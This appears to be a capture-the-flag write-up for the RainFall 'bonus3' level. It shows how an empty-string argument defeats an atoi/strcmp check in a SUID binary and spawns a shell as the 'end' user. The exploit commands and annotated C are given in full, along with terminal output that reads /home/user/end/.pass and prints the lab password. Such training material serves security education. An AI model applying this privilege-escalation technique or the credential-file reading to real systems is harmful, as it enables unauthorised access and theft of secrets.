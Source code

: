 ### VERIFIED WORKING SOLUTION - Empty String Bypass

### Successful Exploitation Method:
```bash
# Step 1: Create file with any content
echo "test" > /tmp/bonus3

# Step 2: Execute with empty string argument  
./bonus3 ""

# Result: Immediate shell with 'end' privileges
```

### Execution Flow Analysis:
```c
// What happens inside the program:
fread(buffer1, 1, 66, file);     // buffer1 = "test..." (file content)
index = atoi("");                // atoi("") returns 0
buffer1[0] = '\0';               // buffer1 becomes "" (empty string)
strcmp("", "");                  // Returns 0 (strings are equal!)
execl("/bin/sh", "sh", "-c", "", NULL);  // Spawns shell with SUID
```

### Actual Results:
```bash
bonus3@RainFall:~$ echo "test" > /tmp/bonus3
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ id  
uid=2013(bonus3) gid=2013(bonus3) euid=2014(end) egid=100(users)
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```

## Execution Flow Analysis

### Successful Exploitation Sequence
```
1. File Preparation:
   - Create /tmp/bonus3 with controlled content
   - Ensure content aligns with exploitation method

2. Argument Selection:
   - Choose argv[1] that satisfies atoi() → index relationship
   - Ensure resulting buffer1 matches argv[1] in strcmp()

3. Privilege Escalation:
   - execl("/bin/sh", "sh", "-c", argv[1], NULL) executes
   - Shell spawns with SUID privileges (end user)
   - Interactive shell or command execution available

4. Flag Extraction:
   - Access /home/user/end/.pass with elevated privileges
   - Extract flag content for completion
```
